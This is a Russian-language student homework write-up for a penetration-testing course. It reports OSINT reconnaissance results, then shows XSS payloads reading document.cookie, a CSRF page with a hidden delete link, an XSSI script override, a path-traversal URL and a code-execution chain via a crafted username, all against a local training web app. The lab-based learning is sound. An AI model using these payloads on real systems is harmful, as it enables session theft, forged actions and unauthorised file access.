# Домашнее задание к занятию «Penetration Testing. Часть 1»
### Задание 1

После использования утилиты theHarvester было найдено
7 e-mail адресов и 2 домена.


После поиска результатов на Censys, было найдено 9 ip-адресов, включая адреса головной компании, почтовые сервера, ip-телефония, открытые ssh порты.



Так же есть результаты поиска документов в общем доступе:   


------
## Задание 2
### XSS
Смотрим как система реагирует на несуществующую страницу:  
`http://localhost:8008/452002223606703030856276251408421215266/test`  


 Далее используем XSS локатор из [OWASP CheatSheetSeries](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.md)  

Локатор:  
 `javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`  

XSS:  
 `http://localhost:8008/530192841835716474238212610358927358482/%3Csvg/onload=alert(document.cookie)//'%3E`

   

------
 ### XSRF

На портале есть возможность добавления пользовательских сниппетов. При просмотре списка сниппетов есть кнопки удаления сниппетов и запрос вида  
`http://localhost:8008/530192841835716474238212610358927358482/deletesnippet?index=0`

Если заставить пользователя пройти по ссылке и провести атаку через хранимую XSS можно удалить сниппет от имени пользователя.  

  

Создаем страницу со скрытой ссылкой  
```
<link href="http://localhost:8008/551451167496643649739844506544308983555/deletesnippet?index=0" rel="stylesheet noreferrer" type="text/css">
<iframe width="1000px" height="1000px" src="http://localhost:8008/551451167496643649739844506544308983555/snippets.gtl"></iframe>
```

  

 ------

 ### XSSI
Создаем страницу с подключением скрипта `feed.gtl`  
На своей странице переопределяем функцию `_feed`  
```
<script>
    function _feed(data) {
      alert("Private user data: " + JSON.stringify(data));
    }
</script>
<script src="http://localhost:8008/551451167496643649739844506544308983555/feed.gtl"></script>
```


 ------

 ### Path traversal

Создаем двух пользователей `test`, `hacker`  
Добавляем файлы для обоих пользователей.  


Далее пытаемся читать чужой файл составляя ссылку по аналогии со своей.  

```
http://localhost:8008/551451167496643649739844506544308983555/test/secret.txt
```

  

Можно читать файлы из корневой директории программы  
Пример запроса:  
```
http://localhost:8008/551451167496643649739844506544308983555/hacker%2F..%2F..%2Fsecret.txt
```
  

 ------

 ### Code Execution

Создаем пользователя с именем `..`  
Редактируем файл `sanitize.py`, удаляем ограничения на атрибуты событий:  
```
disallowed_attributes = [
      'onblur', 'onchange', 'onclick', 'ondblclick', 'onfocus',
      'onkeydown', 'onkeypress', 'onkeyup', 'onload', 'onmousedown',
      'onmousemove', 'onmouseout', 'onmouseup', 'onreset',
      'onselect', 'onsubmit', 'onunload'
  ]
```
Загружаем измененный файл и перезагружаем сервер 
вызвав метод сервера  
 `def _DoQuitserver(self, cookie, specials, params)`  

  
  


Создаем новый сниппет:  
`<i onmouseup="alert(document.cookie)">Focus</i>`  



Проверяем изменения:  



------


